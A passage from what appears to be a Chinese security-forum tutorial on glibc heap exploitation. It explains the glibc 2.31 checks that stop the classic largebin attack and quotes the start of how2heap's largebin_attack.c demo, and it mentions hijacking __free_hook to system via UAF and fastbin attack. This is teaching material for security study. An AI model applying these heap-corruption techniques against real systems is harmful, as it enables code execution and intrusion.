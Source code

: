 剩下的就是简单的利用uaf和fastbin attack hijack free\_hook为system。

0x03 关于如今的largebin attack
=========================

在新出的glibc版本中如2.31（目前比赛主流的版本）增加了两个检查使得之前的largebin attack没有办法使用惹

检查一

```python
if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd))
    malloc_printerr ("malloc(): largebin double linked list corrupted (nextsize)");
```

检查二

```python
if (bck->fd != fwd)
malloc_printerr ("malloc(): largebin double linked list corrupted (bk)");
```

凡是需要找个实例
--------

这次还是找到了how2heap的largebin\_attack.c

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b2ec8075fb6c51aea2fae6cc6fcef0ba08baf3b5.png)

代码如下：

```python
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>

/*

A revisit to large bin attack for after glibc2.30

Relevant code snippet :

    if ((unsigned long) (size) < (unsigned long) chunksize_nomask (bck->bk)){
        fwd = bck;
        bck = bck->bk;
        victim->fd_nextsize = fwd->fd;
        victim->bk_nextsize = fwd->fd->bk_nextsize;
        fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
    }

*/

int main(){
  /*Disable IO buffering to prevent stream from interfering with heap*/
  setvbuf(stdin,NULL,_IONBF,0);
  setvbuf(stdout,NULL,_IONBF,0);
  setvbuf(stderr,NULL,_IONBF,0);

  printf("\n\n");
  printf("Since glibc2.30, two new checks have been enforced on large bin chunk insertion\n\n");
  printf("Check 1 : \n");
  printf(">    if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd))\n");
  printf(">        malloc_printerr (\"malloc(): largebin double linked list corrupted (nextsize)\");\n");
  printf("Check 2 : \n");
  printf(">    if (bck->fd != fwd)\n");
  printf(">        malloc_printerr (\"malloc(): largebin double linked list corrupted (bk)\");\n\n");
  printf("This prevents the traditional large bin attack\n");
```